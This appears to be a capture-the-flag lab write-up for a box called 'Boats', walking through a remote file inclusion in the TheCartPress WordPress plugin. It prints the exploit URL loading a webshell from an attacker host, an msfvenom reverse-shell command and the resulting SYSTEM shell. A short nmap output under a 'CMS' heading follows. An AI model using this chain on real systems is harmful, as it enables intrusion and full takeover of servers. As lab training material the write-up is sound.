 After seeing that we have wordpress running on port 80 and 443, the first thing to check is the output of wpscan.
```
wpscan --url 172.31.1.14 --api-token XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX

[i] Plugin(s) Identified:

[+] thecartpress
 | Location: http://172.31.1.14/wp-content/plugins/thecartpress/
 | Last Updated: 2017-01-12T19:25:00.000Z
 |
 | [!] Title: TheCartPress 1.1.1 - Remote File Inclusion
 |     Fixed in: 1.1.2
 |     References:
 |      - https://wpvulndb.com/vulnerabilities/6566
 |      - https://www.exploit-db.com/exploits/17860/
```
This wordpress is running a vulnerable version of "thecartpress" which is vulnerable to a RFI attack.

By heading to the exploit POC online at [exploitdb](https://www.exploit-db.com/exploits/17860), it shows us how to exploit this:
```
---
PoC
---
http://SERVER/WP_PATH/wp-content/plugins/thecartpress/checkout/CheckoutEditor.php?tcp_save_fields=true&tcp_class_name=asdf&tcp_class_path=RFI
---
```
Here is our exploit, hosting a webshell.php file:
```
http://172.31.1.14/wp-content/plugins/thecartpress/checkout/CheckoutEditor.php?tcp_save_fields=true&tcp_class_name=asdf&tcp_class_path=http://10.10.0.64/webshell.php
```
This webshell has upload functionality built into it, so we upload a msfvenom payload
```
msfvenom -p windows/shell/reverse_tcp LHOST=10.10.0.64 LPORT=4444 -f exe > shell.exe
```
And run it to get a shell as SYSTEM
```
C:\Windows\Tasks>whoami & hostname

nt authority\system
Boats
```

## CMS


### NMAP
```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))

# Nmap done at Sun Jul 12 12:26:39 2020 -- 1 IP address (1 host up) scanned in 37.84 seconds
```
